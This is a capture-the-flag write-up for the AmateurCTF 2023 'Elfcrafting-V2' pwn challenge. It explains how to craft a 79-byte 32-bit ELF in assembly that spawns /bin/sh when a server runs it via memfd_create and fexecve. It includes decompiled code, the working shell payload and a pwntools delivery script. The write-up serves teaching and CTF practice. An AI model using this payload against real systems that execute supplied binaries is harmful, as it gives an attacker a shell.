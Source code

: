 ```yaml
---
title: AmateurCTF '23 - Pwn - Elfcrafting-V2
date: '2023-07-18'
tags: ['pwn', 'amateurctf23', 'elf', 'shellcode']
draft: false
summary: Crafting a custom ELF binary in assembly to execute /bin/sh and inject that inside the file descriptor using memfd_create and fexecve.
---
```


## Challenge Description

The smallest possible 64 bit ELF is 80 bytes. Can you golf it down to 79 bytes?

Author: unvariant

Connection info: `nc amt.rs 31179`

## Solution

We were provided with a binary and a libc file. Let's first analyze the binary using `checksec` and `file`:

![chal](/static/writeups/amateurctf2023/pwn/ec2-0.png)

Now, let's analyze this binary in ghidra and find all the functions

![chal](/static/writeups/amateurctf2023/pwn/ec1-1.png)

Similar to the previous binary, we have the same function. Let's analyze this main

```c:main
int main(int param_1,char **param_2,char **param_3) {
  int iVar1;
  int iVar2;
  ulong uVar3;
  long in_FS_OFFSET;
  undefined4 elf;
  undefined buffer [88];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("I\'m sure you all enjoy doing shellcode golf problems.");
  puts("But have you ever tried ELF golfing?");
  puts("Have fun!");
  elf = 0x464c457f;
  iVar1 = memfd_create("golf",0);
  if (iVar1 < 0) {
    perror("failed to execute fd = memfd_create(\"golf\", 0)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar3 = read(0,buffer,79);
  if ((int)uVar3 < 0) {
    perror("failed to execute ok = read(0, buffer, 79)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("read %d bytes from stdin\n",uVar3 & 0xffffffff);
  iVar2 = memcmp(&elf,buffer,4);
  if (iVar2 != 0) {
    puts("not an ELF file :/");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar3 = write(iVar1,buffer,(long)(int)uVar3);
  if ((int)uVar3 < 0) {
    perror("failed to execute ok = write(fd, buffer, ok)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("wrote %d bytes to file\n",uVar3 & 0xffffffff);
  iVar1 = fexecve(iVar1,param_2,param_3);
  if (iVar1 < 0) {
    perror("failed to execute fexecve(fd, argv, envp)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Well, similar to the [previous](/writeups/amateurctf2023/pwn/elf-crafting-v1) challenge, we can see that the binary is reading 79 bytes from stdin and then writing it to a file descriptor. After that, it's executing the file descriptor using `fexecve`. But, the only new thing is that the code is checking that the first `4 bytes` must be `0x464c457f` which is the magic number for ELF binaries. So, we can't just send a shellcode and execute it. We have to send a valid ELF binary. Let's try to craft a valid ELF binary using assembly.

I did study about `binary-golfing` once. I'll add few [references](#references) at the end of this writeup. So, one of the most valuable resource is [MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny/) which has a lot of tiny binaries. I'll be using the `hello world` binary from there. The asm is:

```asm
BITS 32

		org	0x05430000

		db	0x7F, "ELF"
		dd	1
		dd	0
		dd	$$
		dw	2
		dw	3
		dd	_start
		dw	_start - $$
_start:		inc	ebx			; 1 = stdout file descriptor
		add	eax, strict dword 4	; 4 = write system call number
		mov	ecx, msg		; Point ecx at string
		mov	dl, 13			; Set edx to string length
		int	0x80			; eax = write(ebx, ecx, edx)
		and	eax, 0x10020		; al = 0 if no error occurred
		xchg	eax, ebx		; 1 = exit system call number
		int	0x80			; exit(ebx)
msg:		db	'hello, world', 10
```

We'll be compiling this binary using `nasm`

```bash
nasm -f bin -o hello hello.asm && chmod +x hello
```

But, there is a check, that the final binary _must be less than "79 bytes"_. Fortunately, this one was. Now, let's write a simple python pwntools script that will send this binary to the program/server

```python
from pwn import *

io = process('./chal')
io.recv()
with open('./hello', 'rb') as f:
	buf = f.read()
io.sendline(buf)
io.interactive()
```

![chal](/static/writeups/amateurctf2023/pwn/ec2-1.png)

Well, this worked. It printed out `hello world`. Now, all we need to do, is write an assembly code, that will either give us a shell, or a simple `cat flag.txt`. So, I fumbled around, tried different codes online, even the `echo` from [MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny), but it didn't work. Then, one of my [teammates](https://mikivirus0.github.io/), with the help of some online resources, crafted the following assembly code that spawns `/bin/sh`

```asm
 BITS 32
      org     0x00010000
      db      0x7F, "ELF"
      dd      1
      dd      0
      dd      $$
      dw      2
      dw      3
      dd      _start
      dd      _start
      dd      4
  _cont:
      mov     dl, 0xff
      int     0x80
      mov     ebx, eax
      mov     al, 3
      jmp _end
      dw      0x20
      dw      1
  _start:
      mov     al, 11
      mov     ebx, string_start
      int 0x80
  _end:
    mov ecx, esp
    int 0x80
    xor ebx,ebx
    mov al, 4
    int 0x80
  string_start:
      db "/bin/sh"
  string_len equ $ - string_start
  filesize      equ     $ - $$
```

Compiling this binary, running it, and checking it's size

![chal](/static/writeups/amateurctf2023/pwn/ec2-2.png)

Well, the size is less than 79 bytes. So, running this against the remote server

![chal](/static/writeups/amateurctf2023/pwn/ec2-3.png)

Flag: `amateursCTF{d1d_i_f0rg3t_t0_p4tch_32b1t_b1naries_t00!!!}`

This challenge was pretty good and took me and my team quite a long time to solve than it actually should have. But, hey, we learned a lot of new things. So, that's a win-win situation.

## References

[Golf-Club](https://github.com/netspooky/golfclub/tree/master)

[Binary-Golfing](https://0xninja.fr/binary-golf/)

[MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny)

[Analyzing-ELF-Binaries](https://binaryresearch.github.io/2019/09/17/Analyzing-ELF-Binaries-with-Malformed-Headers-Part-1-Emulating-Tiny-Programs.html)

[ELF-Binary-Mangaling](https://netspooky.medium.com/elf-binary-mangling-pt-2-golfin-7e5c82bb482c)
